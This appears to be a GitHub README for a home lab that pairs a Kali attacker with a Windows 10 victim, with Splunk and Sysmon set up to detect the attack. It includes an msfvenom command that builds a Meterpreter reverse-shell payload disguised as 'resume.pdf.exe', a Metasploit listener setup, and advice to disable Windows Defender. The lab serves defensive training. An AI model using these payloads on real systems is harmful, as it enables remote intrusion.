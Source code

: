 # 🖥️❗ Cybersecurity Home Lab: Detection attacks using Splunk

## Introduction

1. Step 1: Creating Virtual Machines
2. Step 2: Setting Up Splunk for Log Tracking
3. Step 3: Adding Sysmon to Windows 10
4. Step 4: Crafting Malware with msfvenom
5. Step 5: Configuring a Metasploit Listener
6. Step 6: Analyzing Logs in Splunk
7. Fixing Issues
8. Conclusion

## 📝 Introduction
This project guides you through building a home lab to practice cybersecurity skills. It includes an attacking system (Kali Linux), a victim system (Windows 10 virtual machine), and a log-monitoring tool (Splunk) to observe and analyze malicious actions. You’ll set up virtual environments, configure logging with Sysmon, create malware using msfvenom, and track the results in Splunk.

## 🛠️ What You’ll Need
| Requirement                  | Description                                      |
|------------------------------|--------------------------------------------------|
| **RAM**                      | At least **16GB** (to run multiple VMs)         |
| **Virtualization Software**  | VMware Workstation or VirtualBox                |
| **Operating Systems**        | ISO files for Windows 10 and Kali Linux         |
| **Logging Tools**            | Splunk and Sysmon setup files                   |
| **Internet Connection**      | Required for downloading and configuring tools  |


## 🌐 Network Layout
Here’s a basic diagram of how the systems connect:

```
   [Kali Linux (Attacker - 192.168.20.11)]  --->  [Windows 10 VM (Defender - 192.168.20.10)]  --->  [Splunk (Log Monitoring)]
```
Kali launches an attack on the Windows VM, and Splunk captures the logs for review.

## Step 1: Creating Virtual Machines
### 1.1 Kali Linux (Attacker Setup)
Grab the Kali Linux ISO from Kali’s site.
Set up a new VM in your virtualization software and install Kali.
Update the system:
```
sudo apt update && sudo apt upgrade -y
```

### 1.2 Windows 10 (Victim Setup)
Download the Windows 10 ISO from Microsoft.
Create a VM and install Windows 10.
Make sure the VMs can communicate over the network.

> **Note:** The following link is for a more in-depth explanation on how to download and configure both VM's and the VM software: https://github.com/GeorgeOrt708/How-to-create-an-Attack-and-Defense-Cyber-Security-Lab

## Step 2: Setting Up Splunk for Log Tracking
Get Splunk Free from Splunk’s site.
Install it on your Windows 10 VM.
Launch Splunk, log in as admin, and turn on log collection.
## Step 3: Adding Sysmon to Windows 10
Download Sysmon from Microsoft Sysinternals.
Get a sample sysmonconfig.xml from Sysmon Modular.
Open PowerShell (Admin) and run:

```
cd "C:\Users\Downloads\sysmon"
.\sysmon64.exe -i sysmonconfig.xml
```
Check if Sysmon is active:

```
Get-Process sysmon64
```
## Step 4: Crafting Malware with msfvenom
On Kali, create a malicious file:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_Attacker_IP> LPORT=4444 -f exe -o resume.pdf.exe
```
This generates resume.pdf.exe, a disguised payload.
## Step 5: Configuring a Metasploit Listener
Start Metasploit on Kali:
```
msfconsole
```
Set up the listener:
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Your_Attacker_IP>
set LPORT 4444
exploit
```
Run resume.pdf.exe on the Windows VM.
If it works, you’ll get a Meterpreter session:
```
meterpreter > sysinfo
```

## Step 6: Analyzing Logs in Splunk
In Splunk, search for suspicious activity:
```
index=main sourcetype=WinEventLog:Security
```
Look for signs of unauthorized access.
Set up alerts for unusual events.

## Step 7: 🛡️ Fixing Issues
1. Metasploit Not Connecting
Turn off Windows Defender to avoid payload blocking.
Verify LHOST and LPORT match in msfvenom and Metasploit.
Run the payload with admin rights on Windows.
2. Splunk Missing Logs
Confirm Sysmon is installed and running.
Check that Splunk is set to collect Windows logs.
Restart Splunk and test the event index.


## 🎉 Conclusion
This project shows you how to:
* Build a home cybersecurity lab
* Launch and spot malware
* Use Splunk to watch for threats

> **Note:** These tools should only be used for educational purposes. Don’t misuse these skills!
